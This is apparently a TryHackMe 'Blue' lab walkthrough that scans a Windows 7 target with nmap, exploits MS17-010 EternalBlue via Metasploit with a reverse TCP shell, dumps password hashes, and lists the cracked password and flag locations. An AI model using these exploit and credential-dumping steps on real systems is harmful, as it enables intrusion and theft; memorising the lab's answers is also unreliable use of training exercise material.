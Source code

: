 # Blue Machine - TryHackMe Walkthrough

## Recon

### Nmap Scan

```bash
nmap -sV -vv --script vuln {machine_ip}
```

- Discovered open ports: 135, 139, 445, 3389, 49152, 49153, 49154, 49158, 49160.
- Identified services: MSRPC, netbios-ssn, Microsoft Windows 7-10 on port 445, and more.

## Initial Access

### Exploiting EternalBlue with Metasploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS {machine_ip}
set payload windows/x64/shell/reverse_tcp
run
```

- Exploited MS17-010 vulnerability to gain access.

## Privilege Escalation

```bash
ps
```

- Default payload automatically escalated privileges; no additional steps required.

## Password Cracking

```bash
hashdump
```

- Cracked password: `alqfna22`

## Finding Flags

1. **Flag 1:** `C` directory.
2. **Flag 2:** `system32/config` directory.
3. **Flag 3:** Documents directory.

## Conclusion

This guide covers Nmap scanning, exploiting EternalBlue with Metasploit, privilege escalation, password cracking, and finding flags in different directories. Always use these techniques responsibly and ethically.
